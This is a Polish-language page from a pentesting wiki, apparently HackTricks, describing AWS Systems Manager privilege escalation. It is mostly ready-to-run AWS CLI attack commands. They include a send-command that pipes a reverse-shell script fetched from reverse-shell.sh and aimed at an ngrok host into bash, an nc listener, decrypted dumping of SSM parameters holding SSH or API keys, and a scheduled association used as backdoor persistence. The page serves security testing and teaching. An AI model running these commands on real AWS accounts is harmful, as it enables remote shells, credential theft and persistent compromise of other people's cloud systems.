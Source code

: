 # AWS - SSM Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SSM

Więcej informacji o SSM:

{{#ref}}
../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### `ssm:SendCommand`

Atakujący posiadający uprawnienie **`ssm:SendCommand`** może **wykonać polecenia na instancjach** uruchamiających Amazon SSM Agent i **skompromitować IAM Role** działającą w nich.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Jeśli używasz tej techniki do eskalacji uprawnień wewnątrz już skompromitowanej instancji EC2, możesz po prostu przechwycić rev shell lokalnie za pomocą:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potencjalny wpływ:** Bezpośrednie privesc do EC2 IAM roles przypisanych do uruchomionych instancji z działającymi SSM Agents.

### `ssm:StartSession`

Atakujący posiadający uprawnienie **`ssm:StartSession`** może **rozpocząć sesję podobną do SSH na instancjach** uruchamiających Amazon SSM Agent i **przejąć IAM Role** działającą wewnątrz niej.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
> [!CAUTION]
> Aby rozpocząć sesję musisz mieć zainstalowany **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)

**Potential Impact:** Direct privesc do EC2 IAM roles przypisanych do uruchomionych instancji z działającymi SSM Agents.

#### Privesc to ECS

Kiedy **ECS tasks** działają z włączonym **`ExecuteCommand`**, użytkownicy z odpowiednimi uprawnieniami mogą użyć `ecs execute-command`, aby **wykonać polecenie** wewnątrz kontenera.\
Zgodnie z [**the documentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) odbywa się to przez utworzenie bezpiecznego kanału pomiędzy urządzeniem, którego używasz do zainicjowania polecenia „_exec_”, a docelowym kontenerem za pomocą SSM Session Manager. (SSM Session Manager Plugin wymagany do działania)\ 
W związku z tym użytkownicy z `ssm:StartSession` będą mogli **get a shell inside ECS tasks** z tą opcją włączoną, po prostu uruchamiając:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../images/image (185).png>)

**Potencjalny wpływ:** Bezpośrednie privesc do `ECS`IAM roles przypisanych do działających zadań z włączonym `ExecuteCommand`.

### `ssm:ResumeSession`

Atakujący posiadający uprawnienie **`ssm:ResumeSession`** może ponownie **rozpocząć sesję podobną do SSH na instancjach** uruchamiających Amazon SSM Agent z **rozłączonym** stanem sesji SSM i **skompromitować IAM Role** działającą w jej wnętrzu.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potencjalny wpływ:** Bezpośredni privesc do EC2 IAM roles przypisanych do uruchomionych instancji z uruchomionymi SSM Agents i rozłączonymi sesjami.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Atakujący posiadający wymienione uprawnienia będzie mógł wylistować **SSM parameters** i **read them in clear-text**. W tych parametrach często można **znaleźć wrażliwe informacje**, takie jak SSH keys lub API keys.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w parametrach.

### `ssm:ListCommands`

Atakujący posiadający to uprawnienie może wyświetlić listę wszystkich wysłanych **commands** i — miejmy nadzieję — znaleźć na nich **wrażliwe informacje**.
```
aws ssm list-commands
```
**Potencjalny wpływ:** Odkrycie wrażliwych informacji w treści linii poleceń.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Atakujący posiadający te uprawnienia może wylistować wszystkie wysłane **polecenia** oraz **odczytać wygenerowane wyjście**, mając nadzieję znaleźć w nim **wrażliwe informacje**.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potencjalny wpływ:** Możliwość znalezienia wrażliwych informacji w wyjściu poleceń.

### Korzystanie z ssm:CreateAssociation

Atakujący posiadający uprawnienie **`ssm:CreateAssociation`** może utworzyć State Manager Association, aby automatycznie wykonywać polecenia na instancjach EC2 zarządzanych przez SSM. Takie State Manager Association można skonfigurować tak, aby były uruchamiane w stałych odstępach czasu, co czyni je odpowiednimi do backdoor-like persistence bez interaktywnych sesji.
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> Ta metoda utrzymywania dostępu działa dopóki instancja EC2 jest zarządzana przez Systems Manager, agent SSM działa, a atakujący ma uprawnienia do tworzenia associations. Nie wymaga sesji interaktywnych ani jawnych uprawnień ssm:SendCommand. **Ważne:** parametr `--schedule-expression` (np. `rate(30 minutes)`) musi respektować minimalny interwał AWS wynoszący 30 minut. Dla natychmiastowego lub jednorazowego wykonania pomiń całkowicie `--schedule-expression` — association wykona się raz po utworzeniu.

### Codebuild

Możesz też użyć SSM, aby dostać się do projektu codebuild podczas jego budowania:

{{#ref}}
../aws-codebuild-privesc/README.md
{{#endref}}

{{#include ../../../../banners/hacktricks-training.md}}
